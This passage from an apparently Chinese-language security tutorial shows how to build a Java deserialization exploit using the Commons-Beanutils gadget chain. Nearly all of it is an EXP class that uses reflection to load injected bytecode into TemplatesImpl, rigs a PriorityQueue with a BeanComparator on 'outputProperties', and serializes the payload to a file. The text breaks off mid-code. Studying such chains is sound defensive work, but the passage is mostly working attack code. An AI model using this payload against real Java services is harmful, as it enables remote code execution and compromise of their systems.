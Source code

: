 实例化构造方法传入的`Comparator`类对象并调用`compare()`方法进行比较，至此调用链就通了。

## 构造利用链

编写 EXP

```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/12/7 16:15
 */
public class CommonsBeanutils {
    public static void main(String[] args) throws Exception{
        CommonsBeanutils commonsBeanutils = new CommonsBeanutils();
        commonsBeanutils.serialize();
        commonsBeanutils.unserialize();
    }

    public void serialize() throws Exception {
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // BeanComparator实例化
        BeanComparator beanComparator  = new BeanComparator<>("outputProperties");
        
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射修改queue
        Object[] objectsArrary = new Object[]{templates,1};
        Field queue = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,objectsArrary);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, beanComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);
    }
    /*
     * 服务端
```